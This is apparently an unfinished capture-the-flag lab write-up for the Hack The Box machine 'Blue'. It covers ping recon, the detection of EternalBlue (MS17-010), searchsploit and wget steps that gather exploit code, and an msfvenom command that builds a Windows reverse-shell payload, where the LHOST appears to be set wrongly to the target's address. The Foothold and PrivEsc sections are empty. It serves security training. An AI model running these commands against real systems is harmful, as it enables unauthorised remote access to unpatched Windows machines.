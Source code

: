 
Name: Blue
Date:  
Difficulty:  
Description:  
Better Description:  
Goals:  
Learnt:

## Recon
```bash
ping -c 3 10.129.105.18  
PING 10.129.105.18 (10.129.105.18) 56(84) bytes of data.
64 bytes from 10.129.105.18: icmp_seq=1 ttl=127 time=232 ms
64 bytes from 10.129.105.18: icmp_seq=2 ttl=127 time=233 ms
64 bytes from 10.129.105.18: icmp_seq=3 ttl=127 time=221 ms

--- 10.129.105.18 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 221.410/228.976/233.237/5.364 ms
```
Even though the name of this room is very siumilar to a famous exploit,
seeing the `Windows 7 Professional 7601 Service Pack 1 microsoft-ds` in nmap of anything to means to check for 
Eternal Blue. But I also run other nmap scan for completeness and Vuln returns the dreaded smb-vuln-ms17-010.

## Exploit

Although metasploit has a module for this and it a quick couple of commands to execute I will perform this manually.
I looked up manual exlpoitation of Eternal Blue and found this  article: [redteamzone](https://redteamzone.com/EternalBlue/).
Following the steps layed out while being mindful this is a windows 7 exploit using old versions and implementations of python.

```bash
searchsploit eternal
searchsploit -m 42315.py # -m copies to current workign directory
```
![searchsploit](Screenshots/searchsploit.png)

The dependency missing from my VM like the guide is mysmb.
```bash
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

```bash
# reverse_tcp for the OSCP guidelines
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.105.18 LPORT=4444 -f exe -o shell.exe

```

## Foothold

## PrivEsc

      
